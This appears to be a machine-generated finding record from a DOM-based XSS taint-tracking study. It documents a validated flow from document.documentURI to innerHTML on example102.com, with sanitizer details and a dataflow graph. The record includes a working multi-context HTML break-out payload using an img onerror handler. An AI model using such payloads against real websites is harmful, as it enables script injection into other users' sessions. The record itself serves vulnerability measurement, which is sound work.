 // Finding: 63d3d57a-3355-478f-880d-451c8a553187
// Finding.url: https://example102.com/c5/c4/c7/illustration##'></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('2b6e2375e345460ab1f783d7c2641503')><!--/*
// Finding.parentloc: https://example102.com/c5/c4/c7/illustration##'></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('2b6e2375e345460ab1f783d7c2641503')><!--/*
// Finding.domain: example102.com
// Finding.base_domain: example102.com
// Finding.source: document.documentURI
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: yQm5/</i.parseHost
// Sanitizer.location: https://s.example103.com/search/assets/frontend/vendor-726c78a1637accfe3fc8.js - yQm5/</i.parseAuthority:247:7644
// Finding.begin: 31
// Finding.end: 39
// Finding.original_uuid: 41b6de3b-ed51-468b-ac3b-7cca5350a41c
// Finding.TwentyFiveMillionFlowsId: 126298517
// Finding.script: https://s.example103.com/search/assets/frontend/vendor-726c78a1637accfe3fc8.js
// Finding.line: 97
// Exploit.uuid: 2b6e2375-e345-460a-b1f7-83d7c2641503
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: '
// Exploit.tag: link
// Exploit.break_out: #'></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #'></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 5
// Exploit.replace_begin_url: 38
// Exploit.replace_end_url: 38
// Exploit.replace_begin_param: 28
// Exploit.replace_end_param: 28
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -1002875173
// DepGraph.sanitizer_hash: -970879277

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="preg_replace"];
n2 [shape=box, label="RegExp: /\\/"];
n3 [shape=box, label="Lit: /"];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="substr"];
n6 [shape=box, label="Var: x"];
n7 [shape=box, label="Lit: 0"];
n8 [shape=box, label="Lit: 8"];
n9 [shape=box, label="Var: x"];
n10 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n6 -> n1;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n9 -> n5;
n10 -> n9;
}
